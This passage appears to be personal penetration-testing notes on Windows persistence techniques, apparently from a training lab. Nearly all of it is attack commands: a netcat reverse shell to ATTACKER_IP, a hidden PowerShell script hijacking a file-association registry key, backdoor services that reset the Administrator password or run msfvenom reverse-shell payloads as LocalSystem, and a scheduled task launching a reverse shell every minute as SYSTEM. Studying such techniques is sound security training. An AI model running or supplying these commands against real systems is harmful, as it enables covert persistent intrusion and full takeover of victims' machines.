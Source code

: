 ![[c3565cf93de4990f41f41b25aed80571.png]]

the %1 in the image above represents the file to open.

`Start-Process -NoNewWindow <nc64.exe file location> "-e cmd.exe <ATTACKER_IP> <port>"`
`C:\Windows\system32\NOTEPAD.EXE $args[0]` - Create a powershell script that will run a reverse shell and than open the file.
`powershell.exe -WindowStyle hidden <Malicious file location> %1` - Change the registry key to run our malicious script.

## Abusing Services

##### Creating Backdoor Services

**Option 1:**

`sc.exe create <service name> binPath= "net user Administrator <new pass>" start= auto` - Crate a service that will change the administrator's password.
`sc.exe start <service name>` - Start the service.

**Option2:**

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<port> -f exe-service -o <output file name>` - Create a reverse shell with the exe-service format that is compatible with Windows services.

Now get the malicious service file to the target machine.

`sc.exe <service name> binPath= "<malicious file path>" start= auto` - Create a service that points to the malicious service file.
`sc.exe <service name> start` - start the service with a listener waiting in your machine.

##### Modifying Existing Services

`sc.exe query state=all` - Get a list of available services.

Search for a disabled service as you can alter it without the user noticing.

`sc.exe qc <stopped service name>` - Query the service's configuration.

the **BINARY_PATH_NAME** should point to our payload, the **START_TYPE** should be automatic so it'll run without user interaction and the **SERVICE_START_NAME** should preferably be set to LocalSystem to get SYSTEM privileges.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<port> -f exe-service -o <output file name>` - Create a reverse shell with msfvenom.
`sc.exe config <service name> binPath= "malicious file path" start= auto obj= "LocalSystem"` - Change the service parameters as needed.
`sc.exe <service name> start` - Start the service with a listener waiting in your machine.

## Abusing Scheduled Tasks

##### Task Scheduler

`schtasks /create /sc minute /mo 1 /tn <task name> /tr "<nc64 file location> -e cmd.exe <ATTACKER_IP> <port>" /ru SYSTEM` - Create a scheduled task that runs a reverse shell every minute.
`schtasks /query /tn <task name>` - Check that the task is created.
